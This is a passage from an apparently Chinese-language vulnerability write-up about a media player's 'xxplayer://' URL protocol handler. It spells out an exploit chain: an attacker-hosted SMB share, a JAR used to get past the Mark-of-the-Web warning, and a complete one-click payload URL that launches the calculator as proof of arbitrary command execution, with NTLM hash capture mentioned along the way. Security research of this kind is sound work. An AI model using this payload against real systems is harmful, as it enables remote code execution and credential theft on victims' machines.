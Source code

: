 除了获取NTLM Hash，我们还可以在Ubuntu上开一个SMB服务，然后将`url`参数设为使用`\\172.16.176.176\share\Test.exe`，使用快捷方式打开共享文件，发现确实可以打开EXE文件，但是会有文件信任的安全警告（Mark-of-the-Web）。

[![](assets/1703487068-c1f649fa80f251323552421b938e5ab2.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756160973381.jpg)

这里可以通过`jar`文件形式去绕过，打包一个打开计算器的Jar包放在共享目录下，然后将`url`参数设为使用`\\172.16.176.176\share\1.jar`。

[![](assets/1703487068-26646c300c6ac6fd4e64fb08a05b59aa.jpg)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/16756162884409.jpg)

访问`xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.jar&name=123`，创建快捷方式，打开快捷方式，执行Jar包启动计算器，这样我们就实现了1 Click执行任意命令。
